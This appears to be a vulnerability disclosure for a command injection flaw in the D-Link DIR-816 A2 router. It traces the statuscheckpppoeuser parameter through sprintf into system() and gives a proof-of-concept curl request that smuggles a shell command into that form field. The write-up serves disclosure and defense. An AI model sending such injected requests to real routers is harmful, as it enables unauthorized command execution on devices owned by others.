 D-link dir 816 A2 DIR-816 Command injection vulnerability

1. Affected version
![image](https://github.com/xiyuanhuaigu/cve/assets/92045106/1f8c49f4-2f94-4133-a5b8-2217d752c847)

Figure 1 shows the latest firmware Ba of the router
Vulnerability details

The content obtained by the program through the statuscheckpppoeuser parameter is passed to V6, and then V6 is formatted into the stack of v34 through the sprintf function. Finally, v34 is executed through the system function. There is a command injection vulnerability.
![image](https://github.com/xiyuanhuaigu/cve/assets/92045106/7c8f3237-d134-4ee8-bb01-9e5ea2d50ef2)

In order to reproduce the vulnerability, the following steps can be followed:
Use the fat simulation firmware DIR-816_V1.10CNB04.tar.gz
Attack with the following POC attacks
curl -i -X POST http://192.168.0.1/goform/setDeviceSettings -d 'statuscheckpppoeuser=|| ls > /tmp/456'
The reproduction results are as follows:
![image](https://github.com/xiyuanhuaigu/cve/assets/92045106/20ab473f-c239-4df2-b961-039d8c85d04a)
